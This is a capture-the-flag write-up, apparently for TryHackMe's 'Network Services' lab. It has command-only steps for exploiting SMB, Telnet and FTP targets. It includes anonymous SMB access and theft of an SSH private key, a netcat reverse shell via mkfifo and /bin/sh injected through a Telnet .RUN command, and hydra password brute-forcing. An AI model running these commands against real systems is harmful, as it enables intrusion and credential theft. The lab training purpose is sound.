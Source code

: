 <!-- TOC -->

- [Network Services](#network-services)
    - [SMB](#smb)
    - [Telnet](#telnet)
    - [FTP](#ftp)

<!-- /TOC -->

# Network Services

[Network Services Room](https://tryhackme.com/room/networkservices)

Learn about, then enumerate and exploit a variety of network services and misconfigurations.

## SMB

| Title | IP Address |
| :---- | :---- |
| polosmb3 | `1*.**.***.***` |

LHOST:

```bash
enum4linux -a 1*.**.***.***
smbclient //1*.**.***.***/<share> -U ""
```

RHOST:

```bash
more "Working From Home Information.txt"
cd .ssh
get id_rsa
```

LHOST:

```bash
mv id_rsa cactus_id_rsa
chmod 600 cactus_id_rsa
ssh -i cactus_id_rsa cactus@1*.**.***.***
```

> `THM{***_**_***_**?}`

## Telnet

| Title | IP Address |
| :---- | :---- |
| POLOTELNET | `1*.**.***.*` |

LHOST:

```bash
sudo nmap -p- -sC -sV -T4 1*.**.***.*
telnet 1*.**.***.* 8012
sudo tcpdump ip proto \\icmp -i tun0
```

RHOST:

```bash
.RUN ping 1*.**.**.*** -c 1
```

LHOST:

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=1*.**.**.*** lport=80
sudo nc -lvnp 80
```

RHOST:

```bash
.RUN mkfifo /tmp/ctwbwm; nc 1*.**.**.*** 80 0</tmp/ctwbwm | /bin/sh >/tmp/ctwbwm 2>&1; rm /tmp/ctwbwm
```

> `THM{***_***_***_******_****}`

## FTP

| Title | IP Address |
| :---- | :---- |
| ftpfinal | `1*.**.***.***` |

LHOST:

```bash
sudo nmap -sV -sC -T4 -Pn 1*.**.***.***
ftp 1*.**.***.***
```

RHOST:

```bash
ls
more PUBLIC_NOTICE.txt
```

LHOST:

Using mike:p*******

```bash
hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV 1*.**.***.*** ftp
ftp 1*.**.***.***
```

> `THM{***_***_***_***_****}`
